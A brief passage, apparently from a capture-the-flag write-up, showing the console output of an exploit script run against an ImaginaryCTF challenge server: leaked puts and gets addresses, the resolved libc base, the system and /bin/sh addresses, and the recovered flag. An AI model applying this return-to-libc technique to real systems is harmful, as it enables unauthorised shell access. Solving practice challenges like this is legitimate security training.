 ```
$ python exploit.py
[+] Opening connection to chal.imaginaryctf.org on port 42020: Done
[+] Receiving binary : Done
[*] size = 0x290
[*] puts_libc @ 0x7f487b88c910
[*] gets_libc @ 0x7f487b88c040
[*] libc : libc6_2.28-10_amd64
[*] libc base : 0x7f487b81b000
[*] system : 0x7f487b85f9c0
[*] /bin/sh : 0x7f487b99c519
[+] Receiving all data: Done (42B)
[*] Closed connection to chal.imaginaryctf.org port 42020
[+] flag : ictf{4ut0m4t1ng_expl0it_d3v????_b7d75e95}
```

flag : `ictf{4ut0m4t1ng_expl0it_d3v????_b7d75e95}`
